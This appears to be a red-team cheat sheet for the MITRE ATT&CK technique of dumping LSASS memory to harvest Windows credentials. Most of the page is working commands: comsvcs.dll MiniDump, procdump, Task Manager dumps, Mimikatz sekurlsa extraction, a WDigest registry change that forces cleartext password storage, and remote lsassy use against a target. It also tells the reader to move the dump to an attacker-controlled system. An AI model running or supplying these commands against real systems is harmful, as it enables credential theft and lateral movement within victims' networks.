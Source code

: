 ```yaml
---
date: 
tags:
---
```


```table-of-contents
```

https://attack.mitre.org/techniques/T1003/001/

# ATTACK ID:

[T1003.001](https://attack.mitre.org/techniques/T1003/001/)

**Permissions Required:** **Administrator** | **SYSTEM**

**Description**

Adversaries may attempt to access credential material stored in the process memory of the Local Security Authority Subsystem Service (LSASS). After a user logs on, the system generates and stores a variety of credential materials in LSASS process memory. These credential materials can be harvested by an administrative user or SYSTEM and used to conduct [Lateral Movement](https://attack.mitre.org/tactics/TA0008) using [Use Alternate Authentication Material](https://attack.mitre.org/techniques/T1550).

As well as in-memory techniques, the LSASS process memory can be dumped from the target host and analyzed on a local system.

# Techniques

## comsvcs.dll

```powershell
# Get lsass.exe PID
tasklist /fi "Imagename eq lsass.exe"

# Call comsvcs.dll and dump to file.
C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <PID> \Windows\Temp\lsass_dump.dmp full

# Dump with Mimikatz
Invoke-Mimikatz -Command "sekurlsa::Minidump lsass_dump.dmp"
Invoke-Mimikatz -Command "sekurlsa::logonPasswords /full"
```

## Mimikatz

```powershell
Invoke-Mimikatz -DumpCreds
```

![](https://viperone.gitbook.io/~gitbook/image?url=https%3A%2F%2F1600278159-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F-MFlgUPYI8q83vG2IJpI%252Fuploads%252FSPiXG5ELfSnRBMuklacX%252FMimikatz-DumpCreds.png%3Falt%3Dmedia%26token%3D3222cc7f-fac7-4e62-986f-0ccf7dc3f4b6&width=768&dpr=4&quality=100&sign=485db1cf&sv=2)

## Procdump

**URL:** [https://docs.microsoft.com/en-us/sysinternals/downloads/procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)

```powershell
.\procdump.exe -accepteula -ma lsass.exe lsass_dump
```

![](https://viperone.gitbook.io/~gitbook/image?url=https%3A%2F%2F1600278159-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F-MFlgUPYI8q83vG2IJpI%252Fuploads%252F47IsFbRfy9U08kxn0rxX%252Fprocdump.png%3Falt%3Dmedia%26token%3D44800fe7-153d-4b8b-84c6-0d3455d4488a&width=768&dpr=4&quality=100&sign=5e343d5f&sv=2)

`Mimikatz` can then be used to pull information from the `lsass_dump.dmp` file.

```powershell
Invoke-Mimikatz -Command "sekurlsa::Minidump lsass_dump.dmp"
Invoke-Mimikatz -Command "sekurlsa::logonPasswords /full"
```

# Dumping cleartext credentials

The storage mechanism used by WDigest stores passwords in clear text in memory. If an adversary gains access to a system , they can utilize tools like Mimikatz and Lsassy to retrieve not only the password hashes stored in memory, but also the actual passwords in clear text

As a consequence, the attacker would not be restricted to only Pass-the-Hash methods of lateral movement, but could potentially gain access to other resources such as Exchange, internal websites, and any other systems that require a user ID and password for authentication.

```powershell
# CMD (Enable), Requires user to log off/on or lock screen to store in cleartext
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

# CMD (Disable), System reboot required to complete
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
```

```powershell
# Mimikatz (Everything)
Invoke-Mimikatz -DumpCreds
# Mimikatx (Just WDigest)
Invoke-Mimikatz -Command '"sekurlsa::wdigest"'

# Lsassy
lsassy -u '[User]' -p '[Password]' -d '[Domain]' '[Target-IP]' --users --exec smb
```

![](https://viperone.gitbook.io/~gitbook/image?url=https%3A%2F%2F1600278159-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F-MFlgUPYI8q83vG2IJpI%252Fuploads%252FaTn4IopdqbLQqXOJb3az%252Fimage.png%3Falt%3Dmedia%26token%3D0f862ac8-40a0-432a-99dd-94d72e1afb61&width=768&dpr=4&quality=100&sign=653f313&sv=2)

# Task Manager / RDP

With Administrative RDP or interactive logon it is possible to create a dump file from Lsass.exe using Task Manger.

_Lsass.exe -> Right Click -> Create Dump File_

![](https://viperone.gitbook.io/~gitbook/image?url=https%3A%2F%2F1600278159-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F-MFlgUPYI8q83vG2IJpI%252Fuploads%252FxMxmVSjGEsEUFQa3MZMf%252Fimage.png%3Falt%3Dmedia%26token%3D8a47a124-ed35-4daa-9984-8dd1304fba49&width=768&dpr=4&quality=100&sign=9140eaef&sv=2)

Use Mimikatz to read the dump file after transfering the file to an attacker controlled system

```powershell
Invoke-Mimikatz -Command "sekurlsa::Minidump lsass.DMP"
Invoke-Mimikatz -Command "sekurlsa::logonPasswords /full"
```
